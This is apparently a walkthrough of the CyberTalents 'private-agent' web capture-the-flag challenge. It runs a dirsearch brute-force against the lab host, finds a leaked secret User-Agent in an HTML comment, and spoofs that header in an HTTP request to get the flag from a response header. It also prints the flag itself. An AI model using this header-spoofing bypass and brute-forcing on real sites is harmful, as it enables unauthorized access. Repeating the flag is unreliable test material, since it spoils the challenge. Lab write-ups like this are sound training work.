


# Solve private-agent
#### https://cybertalents.com/challenges/web/private-agent


### Run Directory bruteforce
`dirsearch -u http://wcamxwl32pue3e6meg23gk9h8z4kj6zqdkgxu639-web.cybertalentslabs.com -x 403,404`

Nothing found

```html
<!-- TO_Be_Removed => Privet-Agent access => givittome-->
```

### Change the request User-Agent to givittome

```http
GET / HTTP/1.1
Host: wcamxwl32pue3e6meg23gk9h8z4kj6zqdkgxu639-web.cybertalentslabs.com
User-Agent: givittome
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```


The Flag is in the response

```http
HTTP/1.1 200 OK
Server: nginx/1.25.2
Date: Sat, 15 Jun 2024 13:01:18 GMT
Content-Type: text/html; charset=UTF-8
Content-Length: 1808
Connection: close
X-Powered-By: PHP/7.2.34
Xflag: W3lcome_Ag3nt8
Vary: Accept-Encoding
```

>Find More on ==> github.com/MedhatHassan 
